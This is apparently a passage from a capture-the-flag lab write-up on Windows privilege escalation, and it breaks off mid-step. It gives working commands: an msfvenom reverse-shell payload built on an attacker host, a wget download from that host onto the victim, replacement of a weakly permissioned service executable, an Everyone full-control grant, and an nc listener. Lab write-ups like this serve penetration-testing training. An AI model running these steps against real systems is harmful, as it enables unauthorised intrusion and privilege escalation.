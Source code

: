 ```
icacls C:\PROGRA~2\SYSTEM~1\WService.exe
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4445 -f exe-service -o rev-svc.exe
python2 -m SimpleHTTPServer 81
```

**Victim(Powershell)**

```
wget http://$KALI:81/rev-svc.exe -O rev-svc.exe
```

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well.

**Victim(Powershell)**

```
cd C:\PROGRA~2\SYSTEM~1\
move WService.exe WService.exe.bkp
move C:\Users\thm-unpriv\rev-svc.exe WService.exe
icacls WService.exe /grant Everyone:F
```

**Kali**

```
nc -lvp 4445
```

**Note:** PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.

As a result, you'll get a reverse shell with svcusr1 privileges:

**Victim(cmd)**

```
sc stop windowsscheduler
sc start windowsscheduler
```

**OR**
